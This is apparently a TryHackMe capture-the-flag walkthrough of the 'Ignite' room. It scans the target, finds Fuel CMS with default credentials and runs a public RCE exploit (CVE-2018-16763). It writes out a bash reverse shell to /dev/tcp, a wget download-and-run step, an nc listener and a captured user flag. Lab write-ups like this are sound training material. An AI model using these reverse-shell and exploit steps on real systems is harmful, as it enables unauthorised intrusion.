 # Ignite

<div align="left">

<figure><img src=".gitbook/assets/676cb3273c613c9ba00688162efc0979.png" alt="" width="128"><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Ignite](https://tryhackme.com/room/ignite)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.166.221`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

```bash
su
echo "10.10.166.221 ignite.thm" >> /etc/hosts

mkdir thm/ignite.thm  
cd thm/ignite.thm

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 ignite.thm
PING ignite.thm (10.10.166.221) 56(84) bytes of data.
64 bytes from ignite.thm (10.10.166.221): icmp_seq=1 ttl=63 time=61.5 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=2 ttl=63 time=62.8 ms
64 bytes from ignite.thm (10.10.166.221): icmp_seq=3 ttl=63 time=63.7 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

#### 2.1 - Find open ports on the machine

```bash
nmap --open -n -Pn -vvv -T4 ignite.thm
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-02 11:12 EDT
Initiating SYN Stealth Scan at 11:12
Scanning ignite.thm (10.10.166.221) [1000 ports]
Discovered open port 80/tcp on 10.10.166.221
Completed SYN Stealth Scan at 11:12, 0.99s elapsed (1000 total ports)
Nmap scan report for ignite.thm (10.10.166.221)
Host is up, received user-set (0.068s latency).
Scanned at 2023-07-02 11:12:22 EDT for 1s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.24 seconds
           Raw packets sent: 1000 (44.000KB) | Rcvd: 1000 (40.004KB)
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

```bash
nmap -p80 -sCV -T4 ignite.thm -oN port_scan
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/fuel/
```

It looks like there are only one open port on the machine: HTTP.

#### Task 3 - What is the user flag? 

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-19-30.png" alt=""><figcaption><p>http://ignite.thm:80</p></figcaption></figure>

We can search exploit with searchsploit:

```bash
searchsploit fuel cms 1.4 
------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                  |  Path
------------------------------------------------------------------------------------------------ ---------------------------------
fuel CMS 1.4.1 - Remote Code Execution (1)                                                      | linux/webapps/47138.py
Fuel CMS 1.4.1 - Remote Code Execution (2)                                                      | php/webapps/49487.rb
Fuel CMS 1.4.1 - Remote Code Execution (3)                                                      | php/webapps/50477.py
Fuel CMS 1.4.13 - 'col' Blind SQL Injection (Authenticated)                                     | php/webapps/50523.txt
Fuel CMS 1.4.7 - 'col' SQL Injection (Authenticated)                                            | php/webapps/48741.txt
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL Injection (Authenticated)                                | php/webapps/48778.txt
------------------------------------------------------------------------------------------------ ---------------------------------
```

Very good, there're many exploits for this CMS.

Exploring page we found a good info:

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-23-40.png" alt=""><figcaption></figcaption></figure>

To access the FUEL admin, go to:\
[http://ignite.thm/fuel](http://ignite.thm/fuel)\
User name: **admin**\
Password: **admin** (you can and should change this password and admin user information after logging in).

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-25-17 (1).png" alt=""><figcaption></figcaption></figure>

</div>

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 17-26-30.png" alt=""><figcaption></figcaption></figure>

Now, we can try to exploit using a RCE exploit, first we download script from searchsploit db:

```bash
searchsploit -m 50477.py                             
  Exploit: Fuel CMS 1.4.1 - Remote Code Execution (3)
      URL: https://www.exploit-db.com/exploits/50477
     Path: /usr/share/exploitdb/exploits/php/webapps/50477.py
    Codes: CVE-2018-16763
 Verified: False
File Type: Python script, ASCII text executable
cp: overwrite '/home/kali/50477.py'? 
Copied to: /home/kali/50477.py
```

After this, we can launch exploit:

```bash
python 50477.py -u http://ignite.thm
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-07-02 19-39-11.png" alt=""><figcaption></figcaption></figure>

</div>

We need to do a reverse shell, we start to:

Retrieve our ip address:

```bash
ip -br -c a
```

and create a shell file with nano:

```bash
nano shell.sh
```

Insert this line for a bash reverse shell:

```bash
/bin/bash -i >& /dev/tcp/10.0.2.15/3333 0>&1
```

Setup a Python web server and a `nc` listener on 2 different tabs:

1st tab:

```bash
python -m http.server
```

2nd tab:

```bash
nc -nvlp 3333
```

Now, we can return in the exploited Fuel CMS tab, and do this commands:

```bash
wget http://10.0.2.15:8000/shell.sh -O shell.sh
bash shell.sh
```

Reverse shell received in the `nc` terminal:

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

`6470e394cbf6dab6a91682cc8585059b`

</details>

#### Task 4 - What is the root flag? 

<details>

<summary>🚩 Flag 2 (root.txt)</summary>



</details>
